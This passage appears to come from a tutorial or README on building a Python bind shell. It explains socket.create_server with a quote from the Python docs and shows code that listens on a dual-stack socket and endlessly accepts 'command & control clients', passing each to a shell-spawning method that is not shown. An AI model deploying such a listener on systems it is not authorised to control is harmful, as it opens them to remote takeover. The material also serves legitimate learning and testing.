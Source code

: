```python
        break
        
    if not bshell: return
    
    # infinitely accept new command & control clients
    while True:
        clientSocket, (ip, port, *_) = bshell.accept()
        print(f"{ip}:{port}> joined ...")

        self._spawn(clientSocket, ip, port, True)
        
        # cleanup socket objects
        clientSocket.close()
    bshell.close()
```

# Create Server
The [create_server(address, *, family=AF_INET, backlog=None, reuse_port=False, dualstack_ipv6=False)](https://docs.python.org/3/library/socket.html#socket.create_server) is a convenience function just like create_connection is. This convenience function creates a TCP socket bound to an address defined within a tuple and then returns a socket object.

> "If dualstack_ipv6 is true and the platform supports it the socket will be able to accept both IPv4 and IPv6 connections, else it will raise ValueError. Most POSIX platforms and Windows are supposed to support this functionality. When this functionality is enabled the address returned by socket.getpeername() when an IPv4 connection occurs will be an IPv6 address represented as an IPv4-mapped IPv6 address. If dualstack_ipv6 is false it will explicitly disable this functionality on platforms that enable it by default (e.g. Linux). This parameter can be used in conjunction with has_dualstack_ipv6():"



```python
@infinite
@ncat
def bind_shell_create(self):
    dual = socket.has_dualstack_ipv6()
    fam  = socket.AF_INET6 if dual else socket.AF_INET
    
    with socket.create_server(self.addr, family=fam, dualstack_ipv6=dual) as bshell:
        host, port, *_ = bshell.getsockname()
        print(f"Binding: {host}:{port}")
        
        # infinitely accept new command & control clients
        while True:
            clientSocket, (ip, port, *_) = bshell.accept()
            print(f"{ip}:{port}> joined ...")
            
            with clientSocket:
                self._spawn(clientSocket, ip, port, True)
```
